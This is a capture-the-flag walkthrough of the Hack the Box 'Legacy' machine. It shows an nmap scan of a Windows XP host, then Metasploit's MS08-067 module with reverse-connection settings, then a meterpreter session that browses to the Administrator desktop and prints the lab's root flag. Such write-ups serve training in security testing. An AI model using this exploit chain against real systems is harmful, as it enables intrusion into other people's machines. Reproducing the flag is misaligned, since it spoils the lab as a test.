 ```yaml
---
title: Legacy - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Legacy.png
---
```

---
title: 2024-10-12-Legacy - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Legacy.png
---
![Image](/assets/Legacy.png)

Legacy is a very easy machine emphasizing the importance of keeping an OS up to date.
### Service Enumeration
Our script: `nmap -sV -sC --open -p- 10.10.10.4`

Our scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 21:28 EDT
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:2f:34 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY
|   Workgroup: HTB
|_  System time: 2024-09-08T06:27:05+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.25 seconds

```

We gather a hostname and see we're running Windows XP 2000. Upon research, we learn about a remote code execution vulnerability disclosed in 2008, MS08-067.

### Initial Access
We can search metasploit for our module, using `search MS08_067`. We'll see the only valid option being listed as the first. We'll equip the exploit: `use exploit/windows/smb/ms08_067_netapi`, and we'll set our parameters for the attack.

```
RHOSTS: 10.10.10.4
RPORT: 445
LHOST: 10.0.2.15
LPORT: 4444
```

Now, we'll execute.

![Image](/assets/Screenshot 2024-09-02 at 9.54.17 PM.png)

### Post Exploitation

Once in, we can root around. I've included the entire code block below to show the raw data!

```
meterpreter > cd ../
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 01:30:44 -0400  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 01:30:44 -0400  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 02:07:20 -0400  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 16:13:04 -0400  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 15:41:18 -0500  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:59 -0400  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 08:10:06 -0400  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 01:26:58 -0400  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 18:01:44 -0400  ntldr
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cd Documents\ and\ Settings\
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 02:07:21 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 01:29:48 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:37 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:43 -0400  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:42 -0400  john

meterpreter > cd Administrator\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:29 -0400  Application Data
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:27 -0400  Cookies
040777/rwxrwxrwx  0       dir   2017-03-16 02:18:27 -0400  Desktop
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:32 -0400  Favorites
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  Local Settings
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  My Documents
100666/rw-rw-rw-  786432  fil   2022-05-28 06:28:03 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2024-09-07 23:51:00 -0400  NTUSER.DAT.LOG
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  NetHood
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  PrintHood
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  Recent
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:24 -0400  SendTo
040555/r-xr-xr-x  0       dir   2017-03-16 01:20:48 -0400  Start Menu
040777/rwxrwxrwx  0       dir   2017-03-16 01:28:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2022-05-28 06:28:03 -0400  ntuser.ini

meterpreter > cd Desktop\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
993442d258b0e0ec917cae9e695d5713
```
#easy #windows #msfconsole 
